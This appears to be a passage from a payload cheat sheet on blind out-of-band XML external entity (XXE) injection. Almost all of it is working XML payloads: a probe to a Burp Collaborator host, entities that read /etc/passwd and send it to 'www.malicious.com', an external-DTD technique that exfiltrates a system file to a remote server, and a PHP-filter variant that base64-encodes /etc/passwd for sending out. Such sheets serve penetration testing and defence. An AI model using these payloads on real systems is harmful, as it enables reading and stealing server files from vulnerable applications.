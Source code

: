 ## Blind XXE - Out of Band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```


Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```
